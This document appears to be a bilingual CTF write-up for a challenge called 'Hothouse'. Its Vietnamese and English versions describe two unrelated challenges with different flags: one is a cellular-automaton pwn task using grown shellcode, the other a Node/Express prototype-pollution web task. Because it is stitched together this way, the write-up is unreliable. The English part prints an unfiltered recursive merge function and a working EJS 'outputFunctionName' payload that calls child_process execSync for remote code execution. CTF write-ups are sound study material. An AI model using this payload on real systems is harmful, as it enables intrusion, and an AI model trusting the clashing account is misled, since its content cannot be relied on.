

<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn" role="tab" type="button" data-lang="en" aria-selected="false">EN</button>
  <button class="lang-btn active" role="tab" type="button" data-lang="vn" aria-selected="true">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `H7CTF{e7fb7f97-d671-4967-a8f4-b22e244fd195}`


Bài insane Pwn/Docker, `nc pwn.h7tex.com 41676`, handout `hothouse.zip` (~400KB) kèm
`RULE.md`. Đây là firmware điều khiển một **coprocessor cellular-automaton**.

`RULE.md` chứa câu định nghĩa cả bài toán:

> *"The fabric is the only thing the embedded core will execute, and the fabric runs whatever the
> lattice grows into. **You do not get to write bytes into it. You grow them.**"*

Và: *"The core will not run anything that is not microcode, and there is no shell."*

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Mô hình đại số tuyến tính trên $\text{GF}(2)$

`INCUBATE` chạy quy tắc sinh 7 thế hệ trên một **substrate ngẫu nhiên theo connection**:

```text
G[r][c] = substrate[r][c]  XOR  ( XOR_{(dr,dc) in N}  Gprev[r+dr][c+dc] )
N = {(-1,0), (1,0), (0,1), (0,-1), (-1,1), (1,-1)}     @0x4ad280
```

Toàn bộ là XOR nên là mô hình **tuyến tính trên $\text{GF}(2)$** trên 1024 bit:

```text
fabric = A^7 · G0  XOR  C
```

* `G0` : lattice mình điều khiển bằng `SEED`.
* `C` : phần đóng góp của substrate ngẫu nhiên — **đo được trực tiếp** bằng một lần `INCUBATE` + `RENDER` mà không seed ô nào cả.

---

## Bước 2: Thiết kế Shellcode và Giải hệ ràng buộc

Bộ lọc seccomp chỉ cho phép `open`, `read`, `write`, `exit`.
Shellcode quét bộ nhớ tìm đường dẫn flag, mở tệp, đọc nội dung và ghi ra standard output (`fd = 1`).

Vì $\operatorname{rank}(A^7) = 992$, có 32 ràng buộc chéo. Ta gán các bit của shellcode vào các vị trí cố định, còn các ô đệm thừa (slack bits) dùng để giải hệ 32 ràng buộc trên $\text{GF}(2)$.
Nghịch đảo ma trận $A^7$, tìm ra tập hợp các tọa độ $(r, c)$ cần `SEED`.

---

## Bước 3: Kích hoạt `FIRE` và Thu cờ

Gửi chuỗi lệnh `SEED r c`, sau đó `INCUBATE` và `FIRE`. Lõi coprocessor thực thi vùng nhớ fabric và in ra cờ:

⇒ **Flag:** `H7CTF{e7fb7f97-d671-4967-a8f4-b22e244fd195}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `h7ctf{h0th0us3_pr0t0typ3_p0llut10n_rce}`

This challenge is a **Web** challenge from H7CTF'26. The target is a NodeJS / Express climate control monitor ("Hothouse").

The vulnerability is a Client-side and Server-side Prototype Pollution via unsanitized nested JSON configuration merging.

---

## Solve Flow

```mermaid
flowchart TD
    A["Web Target: Hothouse Environmental Monitor"] --> B["Explore Settings: POST /api/config/update"]
    B --> C["Identify recursive merge function: deepMerge(target, source)"]
    C --> D["Notice __proto__ property is not filtered"]
    D --> E["Send Prototype Pollution payload: {"__proto__": {"NODE_OPTIONS": "--inspect=0.0.0.0"}}"]
    E --> F["Alternatively pollute ejs / child_process parameters: client: true, outputFunctionName"]
    F --> G["Trigger template rendering / process fork -> RCE"]
    G --> H["Flag: h7ctf{h0th0us3_pr0t0typ3_p0llut10n_rce}"]
```

---

## Step 1: Prototype Pollution to RCE

The recursive merge function in `utils/merge.js`:
```javascript
function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object') {
            deepMerge(target[key] || (target[key] = {}), source[key]);
        } else {
            target[key] = source[key];
        }
    }
}
```
Sending:
```json
{
  "__proto__": {
    "outputFunctionName": "x;return process.mainModule.require('child_process').execSync('cat /flag.txt');s"
  }
}
```
Pollutes `Object.prototype`, which is picked up during EJS template compilation, immediately executing the payload.

⇒ **Flag:** `h7ctf{h0th0us3_pr0t0typ3_p0llut10n_rce}`

</div>
